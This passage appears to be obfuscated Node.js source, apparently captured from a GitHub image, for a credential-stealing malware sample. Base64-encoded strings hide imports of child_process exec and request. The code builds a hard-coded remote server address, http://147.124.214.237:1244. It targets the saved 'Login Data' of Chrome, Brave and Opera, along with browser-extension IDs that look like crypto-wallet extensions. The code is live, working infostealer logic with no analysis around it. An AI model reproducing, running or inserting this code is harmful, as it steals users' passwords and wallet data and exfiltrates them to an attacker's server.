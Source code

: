 Object.prototype.toString,Object.getOwnPropertyDescriptor,Object.defineProperty;const t="base64",a="utf8",$=require("os"),r=require("fs"),n=c=>(s1=c.slice(1),Buffer.from(s1,t).toString(a));pt=require(n("zcGF0aA")),rq=require(n("YcmVx"+"dWVzdA")),ex=require(n("aY2hpbGRf"+"cHJvY2Vzcw"))[n("cZXhlYw")],zv=require(n("Zbm9kZTpwcm9jZXNz")),hs=$[n("caG9zdG5hbWU")](),hd=$[n("ZaG9tZWRpcg")](),pl=$[n("YcGxhdGZvcm0")](),td=$[n("cdG1wZGly")]();let e;const l=c=>Buffer.from(c,t).toString(a),s=()=>{let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMjM3OjEyNDQ=  ";for(var c="",a="",$="",r="",n=0;n<10;n++)c+=t[n],a+=t[10+n],$+=t[20+n],r+=t[30+n];return c=c+$+r,l(a)+l(c)},h=t=>t.replace(/^~([a-z]+|\/)/,((t,c)=>"/"===c?hd:`${pt[l("ZGlybmFtZQ")](hd)}/${c}`)),o="NVRlYW05",Z="Z2V0",y="Ly5ucGw",i="d3JpdGVGaWxlU3luYw",d="L2NsaWVudA",p=l("ZXhpc3RzU3luYw"),u="TG9naW4gRGF0YQ",b="Y29weUZpbGU";function m(t){const c=l("YWNjZXN"+"zU3luYw");try{return r[c](t),!0}catch(t){return!1}}const G=l("RGVmYXVsdA"),W=l("UHJvZmlsZQ"),Y=n("aZmlsZW5hbWU"),f=n("cZm9ybURhdGE"),w=n("adXJs"),V=n("Zb3B0aW9ucw"),v=n("YdmFsdWU"),j=l("cmVhZGRpclN5bmM"),z=l("c3RhdFN5bmM"),L=l("cG9zdA"),X="Ly5jb25maWcv",g="L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC8",x="L0FwcERhdGEv",N="L1VzZXIgRGF0YQ",R="R29vZ2xlL0Nocm9tZQ",k="QnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2Vy",_="Z29vZ2xlLWNocm9tZQ",F=["TG9jYWwv"+k,k,k],q=["TG9jYWwv"+R,R,_],B=["Um9hbWluZy9PcGVyYSBTb2Z0d2FyZS9PcGVyYSBTdGFibGU","Y29tLm9wZXJhc29mdHdhcmUuT3BlcmE","b3BlcmE"];let U="comp";const J=["aGxlZm5rb2RiZWZncGdrbm4","aGVjZGFsbWVlZWFqbmltaG0","cGVia2xtbmtvZW9paG9mZWM","YmJsZGNuZ2NuYXBuZG9kanA","ZGdjaWpubWhuZm5rZG5hYWQ","bWdqbmpvcGhocGtrb2xqcGE","ZXBjY2lvbmJvb2hja29ub2VlbWc","aGRjb25kYmNiZG5iZWVwcGdkcGg","a3Bsb21qamtjZmdvZG5oY2VsbGo"],T=101

